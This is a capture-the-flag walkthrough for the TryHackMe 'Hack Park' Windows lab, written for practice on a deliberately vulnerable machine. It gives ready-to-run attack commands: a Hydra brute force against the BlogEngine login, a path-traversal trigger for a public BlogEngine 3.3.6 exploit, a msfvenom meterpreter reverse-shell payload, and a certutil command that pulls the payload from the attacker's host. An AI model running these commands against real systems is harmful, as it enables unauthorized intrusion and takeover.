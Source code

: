 # TryHackMe-Hack Park

## NMAP

This is a windows machine so it might not respond to ping so in this we are going to use `-Pn` to ingore ping the box
```
nmap -Pn -sC -sV 10.10.34.2

Host is up (0.17s latency).
Not shown: 998 filtered ports
PORT     STATE SERVICE            VERSION
80/tcp   open  http               Microsoft IIS httpd 8.5
| http-methods: 
|_  Potentially risky methods: TRACE
| http-robots.txt: 6 disallowed entries 
| /Account/*.* /search /search.aspx /error404.aspx 
|_/archive /archive.aspx
|_http-server-header: Microsoft-IIS/8.5
|_http-title: hackpark | hackpark amusements
3389/tcp open  ssl/ms-wbt-server?
|_ssl-date: 2020-10-30T16:52:20+00:00; 0s from scanner time.
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows

```
## PORT 80

<img src="https://imgur.com/nOYC3rf.png"/>

I uploaded the image to see where this image was on the internet

<img src="https://imgur.com/WfgWFD7.png"/>

Then I came on to a page where it mentions the clown's name `pennywise`

<img src="https://imgur.com/J8mG2C8.png"/>

## Gobuster

<img src="https://imgur.com/KV2eaqt.png"/>

Here we see an `/admin` page lets visit it 

<img src="https://imgur.com/q2OCmr1.png"/>

We can on the source that this is `post` form which the request that will be made here will be post a request.

<img src="https://imgur.com/6KpPuR7.png"/>


## Hydra

Now that we know it's a `post` request login form let's try to bruteforce it with `hydra` but we want a username to bruteforce with so by looking at the hints provided by this room the username is `admin` .

Doing  this will give you wrong results 

`hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.2 http-post-form "/Account/login.aspx?ReturnURL=%2fadmin:UserName=^USER^ & Password=^PASS^&Login:Login failed"`

<img src="https://imgur.com/UA1LzC1.png"/>

Now we launch `burpsuite` intercept the login page with the credentials and we will get this request

<img src="https://imgur.com/KG8z3Xx.png"/>

```
__VIEWSTATE=rKI96%2BsCmsHE%2BBnXdIfX2SDkfH9eXlljTdGkdGcVZvZs4wFTrEcHN8RzIiJUP3%2BmIotfzJsQcEGZkMsFWgCKCcodwrJ0SgoYW6AHLLU3Lf9eI4t0abp6pf2yQ6TIJhJb8D143UhfjmN83j2hEeECKoz5FknRAYWStUq%2FPQA%2FIuHRtaES66kLKksczFvJuU%2B5g5E0lZFLWKoiBU8kIHH%2FBJcfOZrMU4UiWe9lOS2zOwtICdeoD3%2FmgBKIVbefaQDASAS%2BEyufY0WmK%2FGQlKkKrKgw7aY5yjnjHK0qlnhWSlYirlOzmQG1OM%2BgjNLe9lh%2B0FnTKo%2B8l2yrE%2FOtmjfzo7GUHHDyy2kG3Jzb%2Fnc63sYdmpE3&__EVENTVALIDATION=TuS%2F6KtXDbAW7T9F99qLDc%2Bdn5DVR%2FFt6iHlpBIA70gHcfSj6gOvo%2BedBax4e%2Bg9AHpwy0wZr9UAz18%2FzK7qGWGOt3Qa3y0kYnv7So%2BCr7Dx%2F2hgHXmU8QEl1nZbLT%2B9X%2FYLOQfNLu6V2SMGWewSmvdqTs%2FIbIHGLoXPTljXEiu4yPSy&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in
```
Modify the command by replacing `%21admin:` with `/admin:` and Username=admin with `^USER^` , Password=`^PASS^`

```
hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.34.2 http-post-form "/Account/login.aspx?ReturnURL=/admin:__VIEWSTATE=rKI96%2BsCmsHE%2BBnXdIfX2SDkfH9eXlljTdGkdGcVZvZs4wFTrEcHN8RzIiJUP3%2BmIotfzJsQcEGZkMsFWgCKCcodwrJ0SgoYW6AHLLU3Lf9eI4t0abp6pf2yQ6TIJhJb8D143UhfjmN83j2hEeECKoz5FknRAYWStUq%2FPQA%2FIuHRtaES66kLKksczFvJuU%2B5g5E0lZFLWKoiBU8kIHH%2FBJcfOZrMU4UiWe9lOS2zOwtICdeoD3%2FmgBKIVbefaQDASAS%2BEyufY0WmK%2FGQlKkKrKgw7aY5yjnjHK0qlnhWSlYirlOzmQG1OM%2BgjNLe9lh%2B0FnTKo%2B8l2yrE%2FOtmjfzo7GUHHDyy2kG3Jzb%2Fnc63sYdmpE3&__EVENTVALIDATION=TuS%2F6KtXDbAW7T9F99qLDc%2Bdn5DVR%2FFt6iHlpBIA70gHcfSj6gOvo%2BedBax4e%2Bg9AHpwy0wZr9UAz18%2FzK7qGWGOt3Qa3y0kYnv7So%2BCr7Dx%2F2hgHXmU8QEl1nZbLT%2B9X%2FYLOQfNLu6V2SMGWewSmvdqTs%2FIbIHGLoXPTljXEiu4yPSy&ctl00%24MainContent%24LoginUser%24UserName=^USER^&ctl00%24MainContent%24LoginUser%24Password=^PASS^&ctl00%24MainContent%24LoginUser%24LoginButton=Log+in:Login failed" -V

```


<img src="https://imgur.com/113BURI.png"/>

Now give it some time while it's ruuning 

<img src="https://imgur.com/rCaj2oT.png"/>

And you will have your username : `admin` and password : `1qaz2wsx`

<img src="https://imgur.com/IkZtMrd.png"/> 

<img src="https://imgur.com/hqhpTq4.png"/>

You can see here that it is using `blogengine.net` and it's version is `3.3.6`. So first thing that I'am going to do is search for this on `exploit-db`

https://www.exploit-db.com/exploits/46353

<img src="https://imgur.com/r9FFuln.png"/>


Now edit your IP and port in this code 

<img scr="https://imgur.com/yjZfCJX.png"/>

Save it as `PostView.ascx` 

<img src="https://imgur.com/x8qIvhG.png"/>


Go to `Posts` on the blogenginge

<img src="https://imgur.com/bvCHx6j.png"/>


<img src="https://imgur.com/2ZW9WAF.png"/>


<img src="https://imgur.com/7I2LHIJ.png"/>

Set up your `netcat` listener

Navigate to `http://10.10.34.2/?theme=../../App_Data/files`

<img src="https://imgur.com/DS7kjLU.png"/>


<img src="https://imgur.com/6dCUcb9.png"/>


Now this shell is unstable so we are going to upload a payload and capture it using `metasploit`

## Msfvenom

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.14.3.143  LPORT=5555 -f exe > shell.exe
```

<img src="https://imgur.com/DJUbGfB.png">

## Metasploit

Launch metasploit through `msfconsole -q` 

`use exploit/multi/handler ` for listener

<img src="https://imgur.com/4yX4MSe.png"/>

Set the options as same as on the payload

<img src="https://imgur.com/e9sZ8t6.png"/>

Now upload it to the reverse shell

`python3 -m http.server 80`  For uploading 

`certutil.exe -urlcache -f http://10.14.3.143:80/shell.exe shell.exe` For donwloading through reverse shell


<img src="https://imgur.com/WgDH07u.png"/>

And looks we have it on the windows box

<img src="https://imgur.com/6cw5ojF.png"/>

And just like that we have a stabilized reverse shell through metasploit ,awesome !

<img src="https://imgur.com/n02ykTg.png"/>

You can run `systeminfo` on cmd

```
systeminfo                                                                
                                                                          
Host Name:                 HACKPARK                                       
OS Name:                   Microsoft Windows Server 2012 R2 Standard
OS Version:                6.3.9600 N/A Build 9600
OS Manufacturer:           Microsoft Corporation
OS Configuration:          Standalone Server
OS Build Type:             Multiprocessor Free
Registered Owner:          Windows User   
Registered Organization:                                                  
Product ID:                00252-70000-00000-AA886    
Original Install Date:     8/3/2019, 10:43:23 AM            
System Boot Time:          10/30/2020, 9:44:53 AM    
System Manufacturer:       Xen                                            
System Model:              HVM domU                                       
System Type:               x64-based PC          
Processor(s):              1 Processor(s) Installed.           
                           [01]: Intel64 Family 6 Model 63 Stepping 2 GenuineIntel ~2400 Mhz                   
BIOS Version:              Xen 4.2.amazon, 8/24/2006
Windows Directory:         C:\Windows  

``` 
Here you can find `Orginal Install Date`

For some reason the abonormal service part was giving me issues so I skipped doing the whole `message.exe` thing instead I found something interesting with winpeas that there are autologon credentials for the administrator , We know that RDP on port 3389 is open so we can use `remmina` and get in to the box 

<img src="https://imgur.com/gwmLIi0.png"/>

Now we are administrator and can do pretty much anythin.
